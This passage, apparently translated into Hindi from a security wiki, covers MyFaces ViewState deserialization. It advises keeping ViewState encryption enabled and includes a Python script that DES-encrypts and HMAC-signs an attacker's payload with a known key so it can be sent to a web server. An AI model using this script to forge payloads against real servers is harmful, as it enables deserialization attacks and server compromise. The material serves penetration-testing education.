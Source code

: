 MyFaces की डिफ़ॉल्ट `javax.faces.STATE_SAVING_METHOD` सेटिंग `server` है। लेकिन: **MyFaces हमेशा ViewState को डिसीरियलाइज़ करता है**, चाहे उस सेटिंग के बावजूद। इसलिए, [MyFaces का उपयोग करते समय एन्क्रिप्शन को अक्षम न करें](https://issues.apache.org/jira/browse/MYFACES-4021) का बहुत महत्व है!

(हमने MyFaces बग ट्रैकर में एक मुद्दा बनाया है: [MYFACES-4133 स्थिति सहेजने की विधि सर्वर होने पर ViewState-ID को डिसीरियलाइज़ न करें](https://issues.apache.org/jira/browse/MYFACES-4133), शायद [इस बार](https://issues.apache.org/jira/browse/MYFACES-4021) सुरक्षित डिफ़ॉल्ट की इच्छा पूरी हो जाएगी।)

## MyFaces: सुरक्षा उपाय

MyFaces का उपयोग करते समय सर्वर-साइड ViewState की एन्क्रिप्शन को अक्षम न करें (द्वारा `org.apache.myfaces.USE_ENCRYPTION`) चाहे ViewState क्लाइंट पर संग्रहित हो या सर्वर पर।

## कस्टम एन्क्रिप्शन

यदि किसी तरह से आप पासवर्ड चोरी करने में सफल होते हैं, तो आप वेब सर्वर पर हमला करने के लिए इस स्क्रिप्ट का उपयोग करके पेलोड को एन्क्रिप्ट और साइन कर सकते हैं:
```python
#!/usr/bin/python3
import sys
import hmac
from urllib import parse
from base64 import b64encode
from hashlib import sha1
from pyDes import *

YELLOW = "\033[93m"
GREEN = "\033[32m"

def encrypt(payload,key):
cipher = des(key, ECB, IV=None, pad=None, padmode=PAD_PKCS5)
enc_payload = cipher.encrypt(payload)
return enc_payload

def hmac_sig(enc_payload,key):
hmac_sig = hmac.new(key, enc_payload, sha1)
hmac_sig = hmac_sig.digest()
return hmac_sig

key = b'JsF9876-'

if len(sys.argv) != 3 :
print(YELLOW + "[!] Usage : {} [Payload File] [Output File]".format(sys.argv[0]))
else:
with open(sys.argv[1], "rb") as f:
payload = f.read()
f.close()
print(YELLOW + "[+] Encrypting payload")
print(YELLOW + "  [!] Key : JsF9876-\n")
enc_payload = encrypt(payload,key)
print(YELLOW + "[+] Creating HMAC signature")
hmac_sig = hmac_sig(enc_payload,key)
print(YELLOW + "[+] Appending signature to the encrypted payload\n")
payload = b64encode(enc_payload + hmac_sig)
payload = parse.quote_plus(payload)
print(YELLOW + "[*] Final payload : {}\n".format(payload))
with open(sys.argv[2], "w") as f:
f.write(payload)
f.close()
print(GREEN + "[*] Saved to : {}".format(sys.argv[2]))
```
# Badsecrets के साथ ज्ञात कुंजी का पता लगाना
